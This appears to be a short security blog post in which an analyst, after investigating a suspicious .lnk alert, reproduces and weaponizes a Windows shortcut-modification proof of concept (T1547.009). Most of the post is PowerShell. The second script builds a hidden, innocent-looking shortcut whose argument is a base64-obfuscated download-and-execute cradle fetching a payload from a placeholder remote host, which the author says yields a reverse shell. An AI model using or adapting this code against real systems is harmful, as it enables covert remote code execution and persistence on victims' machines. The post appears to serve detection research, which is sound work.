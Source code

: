 ```yaml
---
layout: post
title: Weaponzing Shortcut Modification
subtitle: Exploring T1547.009 
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/shortcut.png
share-img: /assets/img/shortcut.png
tags: [poc, shortcut]
---
```


The other day I was investigating an alert for what was suspected to be a malicious lnk file. I had not really seen many of these in the wild, so I decided to take a bit of extra time to see what an true positive might look like. I found some useful PoC resources to help me create my own attack.

The original Powershell script that I modified can be seen below. I pulled it directly from the link to [v3ded's](https://v3ded.github.io/) post included in the resources section.

~~~
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
~~~

Branching from this, I decided to add an IEX statement to download a payload hosted on a remote server. I had it pull and execute shellcode to give me a reverse shell.

~~~
$path = "$([Environment]::GetFolderPath('Desktop'))\RealText.lnk"
$wshell = New-Object -ComObject Wscript.Shell
$shortcut = $wshell.CreateShortcut($path)
$cmd = [System.Text.Encoding]::ascii.GetString([System.Convert]::FromBase64String('SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzAuMC4wLjA6ODAwMC9maWxlLnR4dCcpKQ=='))
$shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = " -c $cmd"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey = "CTRL+C"
$shortcut.Description = "I'm a dolphin, not a virus"
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
~~~


**Resources**

| Type | Link |
| :------ | :--- |
| PoC | [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) |
| PoC | [https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk) |

